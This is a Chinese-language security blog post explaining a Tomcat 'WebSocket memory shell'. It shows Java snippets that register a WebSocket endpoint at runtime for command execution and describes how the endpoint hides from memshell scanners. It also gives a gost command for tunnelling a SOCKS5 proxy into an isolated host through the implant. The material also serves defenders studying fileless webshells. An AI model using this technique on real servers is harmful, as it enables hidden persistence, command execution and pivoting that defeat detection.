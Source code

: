 # **WebSocket 内存马，一种新型内存马技术**

### 1.前言

WebSocket是一种全双工通信协议，即客户端可以向服务端发送请求，服务端也可以主动向客户端推送数据。这样的特点，使得它在一些实时性要求比较高的场景效果斐然（比如微信朋友圈实时通知、在线协同编辑等）。主流浏览器以及一些常见服务端通信框架（Tomcat、netty、undertow、webLogic等）都对WebSocket进行了技术支持。

### 2.版本

2013年以前还没出JSR356标准，Tomcat就对Websocket做了支持，自定义API，再后来有了JSR356，Tomcat立马紧跟潮流，废弃自定义的API，实现JSR356那一套，这就使得在Tomcat7.0.47之后的版本和之前的版本实现方式并不一样，接入方式也改变了。

JSR356 是java制定的websocket编程规范，属于Java EE 7 的一部分，所以要实现websocket内存马并不需要任何第三方依赖

### 3.服务端实现方式

#### （1）注解方式

```
@ServerEndpoint(value = "/ws/{userId}", encoders = {MessageEncoder.class}, decoders = {MessageDecoder.class}, configurator = MyServerConfigurator.class)
```

Tomcat在启动时会默认通过 WsSci 内的 ServletContainerInitializer 初始化 Listener 和 servlet。然后再扫描 `classpath`下带有 `@ServerEndpoint`注解的类进行 `addEndpoint`加入websocket服务

所以即使 Tomcat 没有扫描到 `@ServerEndpoint`注解的类，也会进行Listener和 servlet注册，这就是为什么所有Tomcat启动都能在memshell scanner内看到WsFilter

![image-1](image/1.png)

#### （2）继承抽象类Endpoint方式

继承抽象类 `Endpoint`方式比加注解 `@ServerEndpoint`方式更麻烦，主要是需要自己实现 `MessageHandler`和 `ServerApplicationConfig`。`@ServerEndpoint`的话都是使用默认的，原理上差不多，只是注解更自动化，更简洁

可以用代码更方便的控制 ServerEndpointConfig 内的属性

```
ServerEndpointConfig serverEndpointConfig = ServerEndpointConfig.Builder.create(WebSocketServerEndpoint3.class, "/ws/{userId}").decoders(decoderList).encoders(encoderList).configurator(new MyServerConfigurator()).build();
```

### 3.websocket内存马实现方法

之前提到过 Tomcat 在启动时会默认通过 WsSci 内的 ServletContainerInitializer 初始化 Listener 和 servlet。然后再扫描 `classpath`下带有 `@ServerEndpoint`注解的类进行 `addEndpoint`加入websocket服务

那如果在服务启动后我们再 addEndpoint 加入websocket服务行不行呢？答案是肯定的，而且非常简单只需要三步。创建一个ServerEndpointConfig，获取ws ServerContainer，加入 ServerEndpointConfig，即可

```
ServerEndpointConfig config = ServerEndpointConfig.Builder.create(EndpointInject.class, "/ws").build();
ServerContainer container = (ServerContainer) req.getServletContext().getAttribute(ServerContainer.class.getName());
container.addEndpoint(config);
```

### 4.效果

首先利用i.jsp注入一个websocket服务，路径为/x，注入后利用ws连接即可执行命令

![image-2](image/2.png)

且通过memshell scanner查询不到任何异常（因为根本就没注册新的 Listener、servlet 或者 Filter）

![image-3](image/3.png)

### 5.代理

WebSocket是一种全双工通信协议，它可以用来做代理，且速度和普通的TCP代理一样快，这也是我研究websocket内存马的原因。

例如有一台不出网主机，有反序列化漏洞。

以前在这种场景下，可能会考虑上reGeorg或者利用端口复用来搭建代理。

现在可以利用反序列化漏洞直接注入websocket代理内存马，然后直接连上用上全双工通信协议的代理。

注入完内存马以后，使用 Gost：[https://github.com/go-gost/gost](https://github.com/go-gost/gost) 连接代理

```
./gost -L "socks5://:1080" -F "ws://127.0.0.1:8080?path=/proxy"
```
然后连接本地1080端口socks5即可使用代理

完整代码：[https://github.com/veo/wsMemShell](https://github.com/veo/wsMemShell) 

@版权声明： 本文章著作权归作者所有。转载请注明出处！[https://github.com/veo](https://github.com/veo)
